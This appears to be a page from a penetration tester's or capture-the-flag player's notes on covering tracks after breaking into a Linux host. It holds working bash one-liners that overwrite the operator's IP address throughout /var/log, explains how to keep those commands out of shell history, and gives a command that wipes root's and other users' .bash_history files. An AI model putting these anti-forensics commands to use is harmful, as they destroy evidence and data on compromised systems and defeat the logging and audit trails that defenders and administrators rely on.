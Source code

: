 ```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```

##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [2023-09-29 05:11:26]